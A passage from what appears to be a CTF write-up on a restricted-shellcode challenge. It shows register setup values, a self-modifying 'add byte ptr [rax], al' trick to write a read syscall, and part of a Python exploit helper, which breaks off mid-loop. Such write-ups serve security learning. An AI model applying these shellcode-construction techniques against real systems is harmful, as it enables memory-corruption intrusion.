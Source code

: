 Eventually, I looked carefully at GDB and saw that we actually have a memory access instruction.
The bytes `\x00\x00` correspond to the instruction `add byte ptr [rax], al`, which can modify memory. 

![stack](/blog/images/l3ak25/sshellcode.png) 

Another useful thing is that the `r11` register contained the shellcode address,
so we could easily move it to other registers.

My exploitation strategy was to use `add byte ptr [rax], al` to write the instruction `push rbx`,
and by adjusting `rsp`, it would add two more instructions: `xor rax, rax; syscall`,
which are stored in `rbx`.
```
rdi <- 0
rsi <- 0x13370000
rdx <- 0x99b
rbx <- 0x50fc03148
rax <- 0x13370153
rsp <- 0x1337015c
fill to 0x13370151
add byte ptr [rax], al
0x53 -> push rbx
4831c00f05 -> xor rax, rax; syscall
```
I created a function that finds a way to get values into registers
using adds and shifts performed on the `0x13370000` value.

With that, I can get any value I need and perform the exploit.
(The function is a little bit weird because I originally wrote it in a test file
and later added it to the exploit.)
```py
ADDR = 0x13370000

def find_value(val):
    st = 0
    while (ADDR << st) < val:
        st += 1
    st -= 1

    arr = []
    res = ADDR << st
    i = st
    while res != val:
        d = ADDR << i if i >= 0 else ADDR >> (-i)
        if res + d > val:
            i -= 1
        else:
            res += d
            arr.append(i)

    return st, arr


code = '''
xorps xmm1, xmm1
movq rdi, xmm1
movq xmm0, r11
movq rsi, xmm0
psllq xmm0, 6
paddq xmm1, xmm0
'''

st, arr = find_value(0x50fc03148)

for i in arr:
```